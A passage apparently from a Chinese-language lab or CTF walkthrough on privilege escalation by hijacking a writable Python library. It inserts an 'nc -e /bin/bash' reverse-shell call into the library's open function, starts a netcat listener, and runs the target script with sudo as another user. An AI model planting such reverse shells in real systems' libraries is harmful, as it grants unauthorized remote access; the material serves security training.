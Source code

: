 可以看到我们可以修改该库



![image-20250317200601792](./assets/image-20250317200601792.png)

### open函数处添加弹shell脚本

```
os.system('nc -e /bin/bash 192.168.23.134 283')
```

![image-20250317200626278](./assets/image-20250317200626278.png)



### 本地监听

```
nc -lvp 283
```

![image-20250317200650988](./assets/image-20250317200650988.png)



### 执行

```
sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
```

![image-20250317200715988](./assets/image-20250317200715988.png)
